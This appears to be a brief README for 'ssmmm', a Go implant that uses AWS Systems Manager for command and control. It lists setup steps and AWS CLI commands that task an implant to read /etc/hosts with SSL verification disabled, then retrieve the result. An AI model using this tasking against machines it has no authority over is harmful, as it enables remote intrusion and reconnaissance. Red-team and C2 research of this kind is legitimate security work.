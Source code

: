 # ssmmm

# Setup
export GO111MODULE=off

go get ./..

go run main.go

# send command to implant
aws --no-verify-ssl ssm send-command \
    --instance-ids "mi-0d416eb76fdc3f731" \
    --document-name "AWS-RunShellScript" \
    --comment "cat" \
    --parameters commands="cat /etc/hosts" \
    --output text --profile sliver --region us-east-1

# get command output
aws ssm get-command-invocation \                                                                                               130 ↵
    --command-id "8c4a6c6e-236e-416b-8b77-d9b3a0e73c8f" \
    --instance-id "mi-0d416eb76fdc3f731" --profile sliver --region us-east-1 --no-verify-ssl

